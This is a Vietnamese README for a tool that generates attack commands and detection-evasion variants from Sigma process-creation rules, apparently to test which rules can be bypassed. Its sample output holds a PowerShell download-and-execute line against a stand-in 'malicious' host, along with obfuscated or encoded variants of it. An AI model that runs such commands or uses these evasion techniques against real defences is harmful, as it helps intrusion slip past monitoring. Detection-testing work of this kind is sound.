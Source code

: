 # attack_convert/ – Evasion Command Generator Tool

Công cụ này giúp **tạo các lệnh tấn công gốc và né tránh (evasion)** từ các rule Sigma trong thư mục `process_creation`, dựa trên danh sách rule có thể bị bypass được định nghĩa trong `evasion_possible_rules.txt`.

---

## Cấu trúc thư mục

```bash
Sigma-automation/
├── attack_convert/
│   ├── main.py                      # File chính để chạy
│   ├── utils/
│   │   ├── parser.py                # Hàm trích xuất lệnh command
│   │   ├── evasions_core.py         # Gom các evasion lại
│   │   └── evasions/
│   │       ├── insertion.py
│   │       ├── substitution.py
│   │       ├── omission.py
│   │       ├── reordering.py
│   │       └── recoding.py
```

---

### Cách chạy

#### 1. Chuẩn bị thư mục rule

- Đặt các rule `.yml` tại:  
  `data/rules/windows/process_creation/`
- File chứa danh sách rule có thể bypass (tên không đổi):  
  `evasion_possible_rules.txt`

#### 2. Thiết lập `PYTHONPATH` và chạy

##### Với Windows (CMD)

```bash
set PYTHONPATH=D:\...\Sigma-automation
python -m attack_convert.main
```

##### Hoặc dùng PowerShell

```bash
$env:PYTHONPATH="D:\...\Sigma-automation"
python -m attack_convert.main
```

---

### 📤 Kết quả

- Kết quả sẽ được ghi vào thư mục:

  ```plaintext

  attack_convert/Evasion-Results/

  ```

- Mỗi file `.json` sẽ chứa:
  - Lệnh tấn công gốc (`original_command`)
  - 5 kỹ thuật né tránh (`insertion`, `substitution`, `omission`, `reordering`, `recoding`)

---

### 💡 Ví dụ nội dung file kết quả

```bash
{
  "rule_name": "suspicious_powershell_0",
  "original_command": "powershell.exe -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious')\"",
  "evasions": 
  {
    "insertion": "powershell.exe -Command \"...\" # bypass",
    "substitution": "powershell.exe -c \"...\"",
    "omission": "powershell.exe \"...\"",
    "reordering": "powershell.exe \"...\" -Command",
    "recoding": "powershell.exe -EncodedCommand <base64>"
  }
}
```

---

### 🛠️ Yêu cầu

- Python 3.10 trở lên
- Cài `pyyaml` nếu chưa có:

```bash
pip install pyyaml
```
